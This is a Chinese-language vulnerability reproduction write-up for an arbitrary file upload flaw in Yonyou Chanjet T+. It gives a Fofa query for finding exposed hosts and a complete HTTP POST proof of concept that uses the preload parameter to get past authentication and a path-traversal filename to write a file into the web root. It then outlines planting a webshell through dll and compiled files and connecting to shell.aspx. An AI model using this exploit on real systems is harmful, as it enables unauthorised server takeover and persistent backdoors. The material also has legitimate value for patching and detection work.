


# 用友 畅捷通T+ Upload.aspx 任意文件上传漏洞

## 漏洞描述

用友 畅捷通T+ Upload.aspx接口存在任意文件上传漏洞，攻击者通过 preload 参数绕过身份验证进行文件上传，控制服务器

## 漏洞影响

<a-checkbox checked>用友 畅捷通T+</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="畅捷通-TPlus"</a-checkbox></br>

## 漏洞复现

登录页面


存在漏洞的接口为` /tplus/SM/SetupAccount/Upload.aspx `, 对应文件 `App_Web_upload.aspx.9475d17f.dll`



上传文件类型验证不完善，可上传任意文件到服务器中的任意位置，验证POC

```html
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host:
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 261
User-Agent: Mozilla/5.0 (iPod; U; CPU iPhone OS 3_0 like Mac OS X; ko-KR) AppleWebKit/535.16.4 (KHTML, like Gecko) Version/3.0.5 Mobile/8B117 Safari/6535.16.4
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVXR9biLu
Connection: close

------WebKitFormBoundaryVXR9biLu
Content-Disposition: form-data; name="File1";filename="../../../../../../../Program Files (x86)/Chanjet/TPlusStd/WebSite/1.txt"
Content-Type: image/jpeg

1
------WebKitFormBoundaryVXR9biLu--
```

由于应用为预编译的，直接上传的 `aspx木马`无法直接利用，需要通过上传 `dll 与 compiled `文件后利用Webshell



将 `dll 与 compiled` 文件上传至 Web应用的 bin目录上，aspx上传至 Web根目录下


再访问写入的Webshell进行连接

```html
/tplus/shell.aspx?preload=1	
```